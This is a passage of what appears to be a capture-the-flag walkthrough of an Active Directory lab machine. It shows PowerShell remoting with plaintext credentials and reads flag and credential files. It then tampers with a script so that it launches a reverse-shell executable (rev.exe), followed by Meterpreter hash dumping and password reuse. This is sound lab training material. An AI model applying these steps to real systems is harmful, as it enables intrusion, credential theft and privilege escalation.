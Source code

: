 Powershell:

    $passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {whoami} -credential $cred

 Now we can execute commands has `imonks`
 
    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {ls /users} -credential $cred

and

    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {ls /users/imonks/desktop} -credential $cred

<img width="884" alt="image" src="https://user-images.githubusercontent.com/10171446/179353503-3195b24f-1e19-4e17-a419-b39d134b47dc.png">

We have `user.txt`

    PS C:\Utils> 
    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {cat /users/imonks/desktop/user.txt} -credential $cred
    
    31504774ed650cfab3b00d0078524019


    PS C:\Utils> 
    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {cat /users/imonks/desktop/wm.ps1} -credential $cred

    $securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003  660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'

    $passwd = $securepasswd | ConvertTo-SecureString
    $creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
    Invoke-Command -ScriptBlock {cmd.exe /c c:\utils\rev.exe} -ComputerName Acute-PC01 -Credential $creds




Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{((Get-Content "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\rev.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred


<img width="877" alt="image" src="https://user-images.githubusercontent.com/10171446/179353825-2cc7e140-84f7-4490-b570-783ea2bbe59d.png">

`jmorgan` is part of the administrator group. Now we can dump hashes using Meterpreter.

This reveals the `administrator` password to be `Password@123`. However, the `administator` does not respond to a login.

But we found new users at `ATSSERVER`:

    $passwd = ConvertTo-SecureString "Password@123" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential ("acute\awallace", $passwd)
    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {whoami} -credential $cred
